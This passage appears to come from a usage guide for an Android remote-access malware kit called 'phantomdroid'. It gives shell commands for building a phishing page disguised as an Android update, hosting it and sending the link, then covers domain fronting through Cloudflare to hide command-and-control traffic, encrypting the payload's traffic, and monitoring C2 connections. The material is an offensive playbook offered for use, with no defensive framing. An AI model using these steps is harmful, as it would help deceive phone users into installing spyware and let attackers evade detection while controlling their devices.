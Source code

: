 #### **6.2 Social Engineering Deployment**
```bash
# Generate phishing page
./phantomdroid.sh --social-eng --template android-update --payload phantom_http_*.apk

# Host phishing page
cp social_eng/android_update.html /var/www/html/update.html

# Send phishing link
https://yourdomain.com/update.html
```

### **Step 7: Traffic Obfuscation**

#### **7.1 Domain Fronting Setup**
```bash
# Use CDN for traffic hiding
# CloudFlare setup
curl -X POST "https://api.cloudflare.com/client/v4/zones" \
  -H "Authorization: Bearer YOUR_API_TOKEN" \
  -H "Content-Type: application/json" \
  --data '{"name":"yourdomain.com"}'

# Configure domain fronting in payload
./phantomdroid.sh --payload http --domain-front cloudflare.com --real-host c2.yourdomain.com
```

#### **7.2 Traffic Encryption**
```bash
# Generate custom encryption keys
openssl genrsa -out private.key 2048
openssl rsa -in private.key -pubout -out public.key

# Use custom encryption in payload
./phantomdroid.sh --payload http --lhost c2.yourdomain.com --encrypt-key public.key
```

### **Step 8: Monitoring and Logging**

#### **8.1 Server Monitoring**
```bash
# Monitor C2 connections
tail -f logs/c2_server.log

# Monitor system resources
htop
iotop
nethogs

# Monitor network connections
netstat -tulnp | grep :8080
ss -tulnp | grep :4444
```
